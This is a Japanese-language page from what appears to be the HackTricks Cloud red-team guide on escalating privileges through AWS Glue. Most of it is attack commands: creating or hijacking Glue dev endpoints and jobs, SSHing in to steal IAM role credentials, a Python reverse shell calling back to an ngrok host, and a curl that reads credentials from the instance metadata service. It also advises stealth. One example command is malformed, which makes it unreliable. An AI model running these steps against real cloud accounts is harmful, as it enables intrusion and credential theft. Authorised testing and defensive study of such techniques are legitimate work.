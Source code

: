 # AWS - Glue Privesc

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

これらの権限を持つユーザーは、**新しいAWS Glue開発エンドポイントをセットアップ**し、このエンドポイントに特定の権限を持つ既存のGlueでアサム可能なサービスロールを割り当てることができます。

セットアップ後、**攻撃者はエンドポイントのインスタンスにSSHで接続**し、割り当てられたロールのIAM資格情報を盗むことができます。
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
隠密性のために、Glue仮想マシン内部からIAM資格情報を使用することが推奨されています。

**潜在的な影響:** 指定されたGlueサービスロールへの特権昇格。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

この権限を持つユーザーは、**既存のGlue開発**エンドポイントのSSHキーを変更でき、**それにSSHアクセスを有効に**できます。これにより、攻撃者はエンドポイントにアタッチされたロールの特権でコマンドを実行できます。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**潜在的影響:** glueサービスロールへの特権昇格。

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** と **`glue:CreateJob`または`glue:UpdateJob`** のいずれか、および **`glue:StartJobRun`または`glue:CreateTrigger`** のいずれかを組み合わせたユーザーは、**AWS Glueジョブを作成または更新**し、任意の**Glueサービスアカウント**を添付し、ジョブの実行を開始できます。ジョブの機能には、任意のPythonコードを実行できる能力が含まれており、これを悪用して逆シェルを確立することができます。この逆シェルを使用して、Glueジョブにアタッチされたロールの**IAM資格情報**を外部に流出させることができ、そのロールの権限に基づいて潜在的に不正なアクセスやアクションが行われる可能性があります。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的影響:** 指定されたGlueサービスロールへの特権昇格。

### `glue:UpdateJob`

更新権限だけで攻撃者はすでにアタッチされたロールのIAM資格情報を盗むことができる。

**潜在的影響:** アタッチされたGlueサービスロールへの特権昇格。

## 参考

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
